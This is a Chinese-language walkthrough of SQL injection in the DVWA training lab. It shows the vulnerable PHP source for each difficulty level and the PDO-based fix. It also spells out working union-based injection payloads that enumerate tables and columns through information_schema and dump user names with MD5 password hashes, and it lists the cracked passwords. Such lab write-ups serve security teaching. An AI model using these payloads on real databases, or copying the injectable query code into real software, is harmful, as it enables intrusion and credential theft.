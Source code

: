 # SQL注入漏洞
## 漏洞描述
Sql 注入攻击是通过将恶意的 Sql 查询或添加语句插入到应用的输入参数中，再在后台 Sql 服务器上解析执行进行的攻击，它目前黑客对数据库进行攻击的最常用手段之一。
## 漏洞利用
## Low SQL Injection Source
```
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?> 
```
我们查看源码，对输入的内容没有做任何过滤，这使我们可以构造sql语句
1. 判断是否存在sql注入，输入1查看返回的结果
![image](https://user-images.githubusercontent.com/71583369/144423825-d087c046-fcfd-4aa8-880a-3c1f9e6ad5d9.png)

- 使用`1'`发现语句报错
![image](https://user-images.githubusercontent.com/71583369/144424047-9ddfff58-e4bd-4f81-9284-55cbc52b4459.png)
- 尝试1 and 1=1 1 and 1=2 均未发生报错，直接返回了结果
![image](https://user-images.githubusercontent.com/71583369/144424403-c4c34972-9582-417b-9ce8-3d67eb2479ec.png)
- 可以判断出这个语句是使用单引号闭合的，存在sql注入，使用语句使sql语句错误来判断sql注入。
2. 确定列数，使用`order by `进行判断，这里`order by `后需要使用#，将后面的内容注释掉，防止出错
![image](https://user-images.githubusercontent.com/71583369/144430118-354db24f-72ef-47b2-86e6-cd0bec5ef9f3.png)
- 判断`order by 3`时出现报错，可以判断列数是2列
![image](https://user-images.githubusercontent.com/71583369/144430344-167a4182-4dba-494a-a01b-57bc660129ed.png)
3. 查看回显点，使用`1' union select 1,2#`
![image](https://user-images.githubusercontent.com/71583369/144430714-39cf4e64-de32-494f-8056-6023fc73d47d.png)
- 这里把2的位置作为回显点，查看数据库名`1' union select 1,database()#`
![image](https://user-images.githubusercontent.com/71583369/144431209-56e68912-993a-45f9-b1e8-51e47ec62bd4.png)
- 可以看到爆出了数据库的名字是dvwa
4. 爆出表名，
- 输入`1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#`
- 或者`1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='dvwa'#`
- 或者`1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=0x64767761#     （0x64767761是dvwa的ascii码）`
![image](https://user-images.githubusercontent.com/71583369/144434141-576190e6-e805-453e-adef-d354918172fb.png)
5. 爆出列名
- 输入`1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='dvwa'#`
- 或者`1' union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 and table_schema=0x64767761#`
- 猜测用户名密码存在users表中，我们爆出users表的列
![image](https://user-images.githubusercontent.com/71583369/144436293-e9f15308-2edd-45ca-bfa4-72872147d354.png)
猜测用户名和密码在user和password
6. 查看用户名和密码
- 使用`1' union select group_concat(user),group_concat(password) from users#`，获取到5个用户名和md5加密的密码
![image](https://user-images.githubusercontent.com/71583369/144437896-70c999bc-3c10-4aff-a781-ebad1250b287.png)
- 解密后的密码：`password，abc123，charley，letmein，password`
## Medium SQL Injection Source
```
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?> 
```
从代码中可以看到，使用`mysqli_real_escape_string()`函数对`\x00  \n  \r  \ '  "  \x1a `进行了转义。不适用闭合符号。
- 这里发现前端不是get方式了，猜测为post方式
![image](https://user-images.githubusercontent.com/71583369/144443354-e2462997-440e-40c4-94f0-9d3c9eba5600.png)
- 使用burp抓包进行修改
![image](https://user-images.githubusercontent.com/71583369/144443504-9ba3bbfc-b659-4c6e-8820-a01dba5dbe68.png)
- 直接猜测用户名和密码的字段
![image](https://user-images.githubusercontent.com/71583369/144443784-d057a639-201e-4bf4-89ec-6f81cf95ecb3.png)
- 可以看出直接爆出，和low级别一样，这里就不再演示。
## High SQL Injection Source
```
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?> 
```
这段代码只是限制了查询的条数，实质对注入没有太大影响。基本和low级别一样。因为我们使用了`group_concat()`函数，将结果输入到一行。这个就不在演示。
## Impossible SQL Injection Source
```
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $id = $_GET[ 'id' ];

    // Was a number entered?
    if(is_numeric( $id )) {
        // Check the database
        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
        $data->bindParam( ':id', $id, PDO::PARAM_INT );
        $data->execute();
        $row = $data->fetch();

        // Make sure only 1 result is returned
        if( $data->rowCount() == 1 ) {
            // Get values
            $first = $row[ 'first_name' ];
            $last  = $row[ 'last_name' ];

            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```
这段代码使用了面向对象和PDO，杜绝了sql注入，无法绕过。












